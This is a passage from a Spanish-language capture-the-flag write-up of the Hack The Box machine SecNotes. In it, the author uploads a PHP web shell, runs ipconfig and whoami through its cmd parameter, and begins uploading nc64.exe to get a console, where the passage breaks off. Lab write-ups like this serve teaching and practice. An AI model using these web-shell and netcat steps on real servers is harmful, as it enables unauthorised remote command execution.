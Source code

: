 ```
put cmd.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/31.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez subida, desde nuestro navegador, podemos acceder a ella añadiendo _/cmd.php?cmd=comando_ al url.

Podemos ejecutar _ipconfig_ para corroborar que nos encontramos dentro de la máquina víctima.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/32.png){:class="blog-image" onclick="expandImage(this)"} 

O _whoami_ para determinar que usuario somos.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/33.png){:class="blog-image" onclick="expandImage(this)"} 

Ya a partir de este punto, lo que nos interesa como atacantes, es ganar acceso al sistema a través de una consola propiamente, para lo cual tenemos dos opciones:

Podemos usar [Netcat](https://eternallybored.org/misc/netcat/), para lo cual descargaremos la última versión y subiremos al servidor web el ejecutable.

```
put nc64.exe
```
